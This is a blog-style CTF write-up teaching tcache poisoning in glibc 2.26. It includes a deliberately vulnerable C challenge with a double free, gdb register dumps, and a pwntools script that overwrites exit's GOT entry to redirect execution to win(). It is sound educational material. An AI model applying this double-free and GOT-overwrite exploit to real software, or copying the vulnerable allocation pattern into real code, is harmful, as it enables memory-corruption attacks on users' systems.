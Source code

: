 ```yaml
---
layout: post
title:  "Tcache Poisoning [heap exploitation]"
date:   2018-12-09 20:03:11
categories: experience
---
```



# Tcache Poisoning
what is tcache poisoning ? 
In glibc-2.26, TCache (per-thread cache), a new feature, was introduced in malloc.
and tcache poisoning is a technique to poison Tcache feature in glibc-2.26. for example from how2heap by shellpish team 

	This file demonstrates a simple tcache poisoning attack by tricking malloc into
	returning a pointer to an arbitrary location (in this case, the stack).
	The attack is very similar to fastbin corruption attack.

	The address we want malloc() to return is 0x7ffedaf11040.
	Allocating 1 buffer.
	malloc(128): 0x55a2b964b260
	Freeing the buffer...
	Now the tcache list has [ 0x55a2b964b260 ].
	We overwrite the first 8 bytes (fd/next pointer) of the data at 0x55a2b964b260
	to point to the location to control (0x7ffedaf11040).
	1st malloc(128): 0x55a2b964b260
	Now the tcache list has [ 0x7ffedaf11040 ].
	2nd malloc(128): 0x7ffedaf11040
	We got the control

for another example we will try to exploit this simple program by using tcache poisoning:

{% highlight c %}
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>

#define SZ_BLOCK 200
#define SZ_HEAP  10
#define SZ_FLAG 100

char a[100];
u_int *(buf);

void win(){
	char buf[SZ_FLAG];
	FILE *f = fopen("flag.txt","r");
	if (f == NULL){
		puts("[!] error code 901");
		exit(0);
	}
	fgets(buf,SZ_FLAG,f);
	puts(buf);
}

void welcome(){
puts("     __                      __                           _                      _              ");
puts("    / /_ _____ ____ _ _____ / /_   ___     ____   ____   (_)_____ ____   ____   (_)____   ____ _");
puts("   / __// ___// __ `// ___// __ \\ / _ \\   / __ \\ / __ \\ / // ___// __ \\ / __ \\ / // __ \\ / __ `/");
puts("  / /_ / /__ / /_/ // /__ / / / //  __/  / /_/ // /_/ // /(__  )/ /_/ // / / // // / / // /_/ / ");
puts("  \\__/ \\___/ \\__,_/ \\___//_/ /_/ \\___/  / .___/ \\____//_//____/ \\____//_/ /_//_//_/ /_/ \\__, /  ");
puts("       HackerClass Gunadarma @2019     /_/        author: arsalan (tripoloski)         /____/   ");
}

void menu(){
	puts("+---------------------+");
	puts("|         Menu        |");
	puts("+---------------------+");
	puts("| 1. allocate memory  |");
	puts("| 2. freeing memory   |");
	puts("| 3. exit             |");
	puts("+---------------------+");
	printf("| select [1-3] : ");
}

void init(){
	setvbuf(stdout, 0 , 2 , 0);
	setvbuf(stdin, 0 , 2 , 0);
}

void create_memory(){
	int size;
	printf("[?] size : ");
	//read(0,size , sizeof(size));
	scanf("%d" , &size);
	printf("[?] data : ");
	if (size <= 0x88){
		buf = malloc(size);
		read(0,buf , size);
	}
	puts("[+] memory allocated!");
}

void release_memory(){
	free(buf);
}

void main(){
	init();
	char buf[4];
	welcome();
	while(1){
		menu();
		read(0 , buf , sizeof(buf));
		switch(atoi(buf)){
			case 1:
				create_memory();
				break;
			case 2:
				release_memory();
				break;
			case 3:
				puts("[+] exiting...");
				exit(0);
				break;
			default:
				puts("[!] invalid choice error code 1902");
				break;
		}
	}
}
{% endhighlight %}


you can find this challenge on my repository [here](https://github.com/tripoloski1337/learn-to-pwn/tree/master/tcache_poisoning) in this case we have to allocating memory and double freeing , since there's no checks for double free on glibc-2.26+. so we can directly do double free, after that we can allocate memory and fill it with whatever we want. at this point we already controll the rdx register. 

	malloc(0x100)
	free(0)
	free(0)
	malloc(0x100) <------ control rdi
	malloc(0x100) <------ just a padding
	malloc(0x100) <------ another control 

### how can it be ?
if you look into gdb there's something interesting at address **<malloc+407>**

     → 0x7ffff7a7b207 <malloc+407>     mov    rdi, QWORD PTR [rdx]

this instruction will mov rdx value to rdi. it's mean it will move whatever value is from rdx to rdi register. and suddenly our rdx is filled with our input before

    $rax   : 0x5
    $rbx   : 0x64
    $rcx   : 0x0000000000602010  →  0x0000000000000000
    $rdx   : 0x4141414141414141 ("AAAAAAAA"?) <----- our input data from the seccond malloc
    $rsp   : 0x00007fffffffe320  →  0x0000000000400dd1  →  "+---------------------+"
    $rbp   : 0xffffffffffffffb0
    $rsi   : 0x0000000000602038  →  0x0000000000000000
    $rdi   : 0x64
    $rip   : 0x00007ffff7a7b207  →  <malloc+407> mov rdi, QWORD PTR [rdx]
    $r8    : 0xb
    $r9    : 0x0
    $r10   : 0x00007ffff7b82cc0  →  0x0002000200020002
    $r11   : 0x246
    $r12   : 0x0000000000400740  →  <_start+0> xor ebp, ebp
    $r13   : 0x00007fffffffe460  →  0x0000000000000001
    $r14   : 0x0
    $r15   : 0x0

in this case we can doing GOT overwrite from exit() function to win() function 

{% highlight c %}
	case 3:
		puts("[+] exiting...");
		exit(0); <-- our goal to change it to win()
		break;
{% endhighlight %}

to make it more clear and reliable i made a python script to exploit this binary 

{%highlight python%}

from pwn import *
r = process("./tcache_poisoning")

def alloc(size,data ):
	r.sendlineafter("| select [1-3] :","1")
	r.sendlineafter("[?] size :",str(size))
	r.sendlineafter("[?] data :",data)
	log.info("allocating")

def free():
	r.sendlineafter("| select [1-3] :","2")
	log.info("freeing")

win_plt = 0x0000000000400827
exit_got = 0x000000601348
#gdb.attach(r)
alloc(0x28,"A"*8)

free()
free()

alloc(0x28,p64(exit_got))
alloc(0x28,p8(0x00))
alloc(0x28,p64(win_plt)) 

r.interactive()

{% endhighlight %}

after running this python script we can select option 3 to trigger exit() and exit() is not the real exit() function anymore it was win() function since we doing GOT overwrite 

	[+] Starting local process './tcache_poisoning': pid 28800
	[*] allocating
	[*] allocating
	[*] freeing
	[*] freeing
	[*] allocating
	[*] allocating
	[*] allocating
	[*] Switching to interactive mode
	 [+] memory allocated!
	+---------------------+
	|         Menu        |
	+---------------------+
	| 1. allocate memory  |
	| 2. freeing memory   |
	| 3. exit             |
	+---------------------+
	| select [1-3] : $ 3
	[+] exiting...
	ctf{y0u_must_b3_a_pwnerrrr!!!!!}

as you can see there's string ***ctf{y0u_must_b3_a_pwnerrrr!!!!!}*** it mean our win() function has called and give us data from file flag.txt you can see what win() actually do here
{% highlight c %}
void win(){
	char buf[SZ_FLAG];
	FILE *f = fopen("flag.txt","r");
	if (f == NULL){
		puts("[!] error code 901");
		exit(0);
	}
	fgets(buf,SZ_FLAG,f);
	puts(buf);
}
{% endhighlight %}